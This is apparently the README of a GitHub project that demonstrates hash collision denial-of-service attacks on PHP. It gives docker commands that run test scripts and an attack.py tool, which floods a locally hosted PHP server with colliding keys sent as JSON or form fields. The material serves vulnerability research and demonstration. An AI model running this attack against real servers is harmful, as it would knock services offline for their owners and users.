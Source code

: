 # Simulate Hash Collision Attack on a PHP Server

Checkout the [associated blog post](http://lukasmartinelli.ch/web/2014/11/17/php-dos-attack-revisited.html).

## How it works

PHP hashtables are vulnerable to complexity attacks. Every function
that takes external input and parses in a PHP hashtable is therefore
vulnerable to complexity attacks.

![Insert Animation](http://lukasmartinelli.ch/media/hash-collisions.gif)

## Test PHP vulnerabilities to Collision Attacks

In the directory `test` there are PHP scripts that demonstrate vulnerabilities of
functions that use the PHP map.

The file `collision_keys_small.txt` contains only 10k entries.
If you want to test out the real deal you should try these attacks
with `collision_keys.txt` (64k entries).

### Run tests

Run tests for inserting colliding keys into array:

```
docker run -it \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/array.php collision_keys.txt
```

Run tests for calling `json_decode` for JSON key-value pairs with colliding keys:

```bash
docker run -it --rm \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/json_decode.php collision_keys.txt
```

Run tests when `unserializing` an array with colliding keys:

```bash
docker run -it --rm \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/unserialize.php collision_keys.txt
```

## Plot time difference

You can generate the plot data used for the diagrams by yourself:

```bash
docker run -it --rm \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php plot/json_decode.php collision_keys.txt
```

![json_decode time compared for collisions](/plot/json_decode_time.png)

## Run the server

```bash
docker run -it --rm -p 8080:80 -v "$PWD"/server:/var/www/html php:5.6-apache
```

Docker will map the port `80` of the webserver to `8080`.
Therefore you can visit your site at `localhost:8080`.

## Run a Hash Collision Attack

The `attack.py` script will make parallel requests (amount can be specified with `--count`)
to a URL endpoint. It reads collisions from given text file and tries to do a
Hash collision Attack with them. You can set the attack type to either use form fields
or a json map.


Make 100 good normal requests to a fake JSON API.

```bash
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt --count=100 --type=json --no-collide
```

Make 100 bad requests to a fake JSON API.

```bash
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt --count=100 --type=json
```

You can also run the form based attack (which has been fixed by an Appache workaround).

```bash
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt --count=100
```


